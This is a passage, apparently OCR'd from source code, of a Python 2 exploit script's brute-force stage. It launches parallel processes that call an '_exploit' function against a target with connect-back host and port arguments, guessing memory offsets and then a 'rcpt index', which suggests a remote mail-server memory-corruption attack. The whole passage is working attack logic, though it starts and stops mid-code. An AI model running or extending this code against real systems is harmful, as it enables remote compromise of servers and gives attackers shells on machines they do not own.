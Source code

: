            procs[:] = []
           if to_break:
            break

       print "\n"
       print "Discover offsets for rcpt index brute force ..."
       print
       b1_survived = {}
       for b3 in b3_survived:
        for b2 in allbytes:
         if b2 % 0x10 == 0 and b2 <= 0xff:
          sys.stdout.write("\r\r\nTry Offsets %02x%02x%02x to %02x%02x%02x ... " % (b3,b2,0x00,b3,0xff,0xf0))
         for b1 in allbytes_10:
           proc = Process(target=_exploit, args=(b1, b2, b3, rcpt_index_start, target, cb, cbport, q))
           procs.append(proc)
           proc.daemon = True
           proc.start()

           if len(procs) == 16:
            for i in xrange(0,16):
              result = q.get()
              if result[3] == "OFFSET":
               if result[2] not in b1_survived:
                 b1_survived[result[2]] = []
               b1_survived[result[2]].append(result)
               sys.stdout.write("\n%02x%02x%02x Survived ..." % (result[2],result[1],result[0]))

            procs[:] = []

       iteration_list = [n for n in xrange(0x100,0x1000,0x10)]
       iteration_list2 = [n for n in xrange(0x1000,0x3000,0x100)]

       for n in iteration_list2:
            iteration_list.append(n)

       b1_survived_priority = []
       b1_survived_additional = []

       for key in sorted(b1_survived):
        if len(b1_survived[key]) < 7:
          b1_survived_priority.append(b1_survived[key])
        else:
          b1_survived_additional.append(b1_survived[key])

       _b1_survived = []
       for result in b1_survived_priority:
        _b1_survived.append(result)
       for result in b1_survived_additional:
        _b1_survived.append(result)

       print "\n"
       print "Start rcpt index brute force ..."
       print

       for result in _b1_survived:
        for s in result:
         sys.stdout.write("\rTry Offset %02x%02x%02x with rcpt index from 0x100 to 0x3000 ..." % (s[2],s[1],s[0]))
         for rcpt_index in iteration_list:
           proc = Process(target=_exploit, args=(s[0], s[1], s[2], rcpt_index, target, cb, cbport, q))
           procs.append(proc)
           proc.daemon = True
           proc.start()
